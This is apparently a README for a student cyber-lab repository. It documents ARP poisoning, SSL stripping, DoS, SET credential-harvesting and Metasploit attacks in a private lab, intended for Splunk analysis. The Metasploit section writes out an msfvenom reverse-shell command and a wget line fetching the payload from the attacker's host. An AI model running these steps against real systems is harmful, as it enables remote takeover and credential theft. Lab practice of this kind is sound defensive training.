 # CYBER-LAB

🛡️ Analysis of LAN-Based Attacks Captured in Splunk
This repository contains analysis and documentation of various LAN-based attacks captured and investigated using Splunk. The following attacks were tested in a controlled lab environment using tools like Ettercap and sslstrip, and data was collected and analyzed to understand the impact on local network communication.

🔍 ARP Poisoning (Spoofing)
ARP Poisoning is a technique where an attacker sends falsified ARP messages over a local network to associate their MAC address with the IP address of another host (e.g., the default gateway). This allows them to intercept or modify network traffic.

📘 How ARP Works:
ARP maps IP addresses to MAC addresses.

Devices broadcast ARP requests like "Who has IP 10.0.2.1?".

The legitimate device responds with its MAC address.

Devices update their ARP cache based on the response.

⚠️ ARP Spoofing Process:
Attacker IP: 10.0.2.5

Victim IP: 10.0.2.4

The attacker sends spoofed ARP replies, mapping the victim’s IP to their own MAC.

Victim's ARP cache is updated with the malicious mapping.

The attacker can now intercept packets intended for the victim or the gateway.

🛠️ Ettercap Configuration:
Target 1: 10.0.2.4 (Victim)

Target 2: 10.0.2.1 (Gateway)

Enabled "Sniff remote connections"

Activated ARP Poisoning

🔓 SSL Stripping
SSL Stripping downgrades a secure HTTPS connection to HTTP, allowing an attacker to read and manipulate plaintext data during a man-in-the-middle (MITM) attack.

🔁 How SSL Stripping Works:
Intercepts Traffic: Via ARP spoofing or DNS spoofing.

Downgrades HTTPS:

Client initiates HTTP request.

Server replies with HTTPS redirect.

Attacker intercepts and removes the redirect.

Proxies Connection:

HTTPS with the server.

HTTP with the client.

🛠️ Setup:
Target 1: 10.0.2.4 (Victim)

Target 2: 10.0.2.1 (Gateway)

Used sslstrip to intercept and downgrade HTTPS traffic.

🚫 DoS Attack (Denial-of-Service)
A DoS attack aims to make a system or network unavailable by overwhelming it with traffic or exploitative requests.

⚙️ Attack Stages:
Target Selection:

Target: Vulnerable Ubuntu machine.

Preparation:

Choose unused or spoofed source IP.

Identify protocol-specific flaws (e.g., TCP SYN flood).

Execution:

Flood the victim with traffic or repeated connection requests.

Cause slowdowns or total unavailability.

🛠️ Attack Execution:
Input victim IP (e.g., 10.0.2.4)

Use an unused or spoofed IP

Activate DoS attack using appropriate tool or script

📊 Splunk Analysis (to be added)
Captured traffic and logs from these attacks can be visualized and analyzed using Splunk, providing insight into:

Suspicious ARP table updates

Unencrypted HTTP traffic during SSL stripping

Traffic spikes during DoS

📂 Splunk dashboards, searches, and screenshots will be added in the /splunk-analysis/ folder.
---------------------------------------------------------------------------

🎭 Social Engineering Toolkit (SET) – Credential Harvesting
Simulated a phishing attack using SET in a lab environment.

Attacker IP: 10.0.2.14

Victim IP: 10.0.2.4

Selected:

Website Attack Vectors → Credential Harvester → Site Cloner

Cloned a legitimate website and hosted it on attacker's machine.

Victim accessed http://10.0.2.14, entered credentials.

Captured credentials were displayed on the attacker's terminal.

---------------------------------------------------------------------------

🔐 Metasploit Penetration Testing Workflow (Kali → Ubuntu)
Reconnaissance

Used auxiliary/scanner/portscan/tcp and udp_sweep to find open ports.

Payload Creation

Created reverse shell:
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.2.14 LPORT=4444 -f elf > shell.elf

Payload Delivery

Hosted with Python HTTP server, downloaded on victim:
wget http://10.0.2.14:8000/shell.elf

Listener Setup

Used exploit/multi/handler in Metasploit to catch reverse shell.

Execution & Access

Ran payload on victim → Got Meterpreter session:
Commands: sysinfo, shell, download, upload, execute

Post-Exploitation

Explored payloads like bind_tcp, reverse_http, and shell/reverse_tcp for persistence and stealth.

---------------------------------------------------------------------------

⚠️ Disclaimer
All activities were performed in a controlled, ethical lab environment for educational and research purposes only. Do not attempt these attacks on networks you do not own or have permission to test.

